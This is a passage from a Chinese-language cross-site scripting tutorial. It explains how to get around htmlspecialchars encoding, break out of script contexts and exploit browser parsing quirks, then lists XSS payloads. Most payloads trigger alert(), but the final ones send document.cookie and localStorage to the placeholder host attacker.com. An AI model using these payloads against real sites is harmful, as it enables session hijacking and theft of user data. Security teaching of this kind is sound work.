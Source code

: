 3.  **绕过 `htmlspecialchars` (PHP) 或类似编码函数:**
    *   **利用默认不编码单引号:** PHP `htmlspecialchars()` 默认不编码单引号 `'`。如果输出在单引号包裹的 HTML 属性中，如 `<input value='USER_INPUT'>`，可以注入 `' onmouseover='alert(1)`，最终变为 `<input value='' onmouseover='alert(1)'>`。必须确保调用时设置了 `ENT_QUOTES` 标志才能防御此情况。
    *   **利用未编码的字符:** 某些编码函数可能只编码了 `<>"&`，如果其他字符（如 `/`）在特定上下文中有特殊含义，可能被利用。
    *   **字符集问题:** 如果页面和数据库字符集不一致，或 `htmlspecialchars` 未指定正确的字符集，可能导致多字节字符截断或编码绕过。

4.  **绕过输出在 `<script>` 标签内的限制:**
    *   **输出在 JavaScript 字符串变量中:**
        *   `var username = 'USER_INPUT';`
        *   注入 `';alert(1);//` -> `var username = '';alert(1);//';` (闭合单引号，执行代码，注释掉后续)
    *   **输出在 JavaScript 代码逻辑中 (非字符串):**
        *   `if (userInput) { ... }`
        *   注入 `1); alert(1); (1` (如果 `userInput` 能控制这里)
    *   **闭合 `<script>` 标签:** 如果你的输入直接插入到 `<script>` 块内，而非字符串中：
        *   `<script> ... USER_INPUT ... </script>`
        *   注入 `</script><script>alert(1)</script>`，可以提前结束当前脚本块，并开始一个新的脚本块。

5.  **利用浏览器 Quirks 和非标准行为:**
    *   **不同标签的解析模式:** `<svg>`, `<math>`, `<template>` 等标签内部可能应用不同的解析规则或允许执行脚本。
    *   **事件处理器:** 利用各种 HTML 事件处理器 (`onload`, `onerror`, `onmouseover`, `onclick`, `onfocus`, `ontoggle` 等)。
    *   **`javascript:` 伪协议:** 用在 `href`, `src`, `action`, `formaction` 等属性中（现代浏览器防御增强）。
    *   **`data:` URI:** 可以嵌入 Base64 或 URL 编码的 HTML/JS 内容。

### 九、 XSS Payload 示例 (Payload Examples)

以下是一些常见的 XSS Payload，用于测试或演示漏洞，通常以触发 `alert()` 为目标。实际攻击中会替换 `alert()` 为更复杂的恶意脚本。

*   **基本脚本执行:**
    *   `<script>alert('XSS')</script>`
    *   `<Script>alert('XSS')</sCRipt>` (大小写绕过)
*   **利用事件处理器:**
    *   `<img src=x onerror=alert('XSS')>` (图片加载失败时触发)
    *   `<img src=x: onerror=alert(String.fromCharCode(88,83,83))>` (使用 `fromCharCode` 绕过对 `alert` 关键字的过滤)
    *   `<svg onload=alert('XSS')>` (SVG 加载时触发)
    *   `<body onload=alert('XSS')>` (如果能注入 `<body>` 标签)
    *   `<div onmouseover="alert('XSS')">把鼠标移到这里</div>`
    *   `<input onfocus=alert('XSS') autofocus>` (输入框获得焦点时触发)
    *   `<details open ontoggle=alert('XSS')>` (`<details>` 元素展开/折叠时触发)
*   **利用 `javascript:` 伪协议 (效果依赖浏览器):**
    *   `<a href="javascript:alert('XSS')">点击这里</a>`
    *   `<iframe src="javascript:alert('XSS');"></iframe>`
    *   `<form action="javascript:alert('XSS')"><input type=submit></form>`
*   **利用 `data:` URI:**
    *   `<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>`
    *   `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>`
*   **其他标签/向量:**
    *   `<video src=x onerror=alert('XSS')></video>`
    *   `<audio src=x onerror=alert('XSS')></audio>`
    *   `<style onload=alert('XSS')></style>` (旧版或特定场景)
    *   `<object data="javascript:alert('XSS')"></object>`
    *   `<embed src="javascript:alert('XSS')"></embed>`
    *   `<math><a xlink:href="javascript:alert('XSS')">Click</a></math>`
*   **注入到 JavaScript 字符串中:**
    *   `';alert('XSS');//`
    *   `";alert('XSS');//`
*   **更复杂的 Payload (信息窃取/操作):**
    *   **窃取 Cookie 发送到攻击者服务器:**
        `<script>fetch('//attacker.com/log?c='+encodeURIComponent(document.cookie));</script>`
        `<script>new Image().src='//attacker.com/log?c='+encodeURIComponent(document.cookie);</script>`
    *   **窃取 localStorage:**
        `<script>fetch('//attacker.com/log?ls='+encodeURIComponent(JSON.stringify(localStorage)));</script>`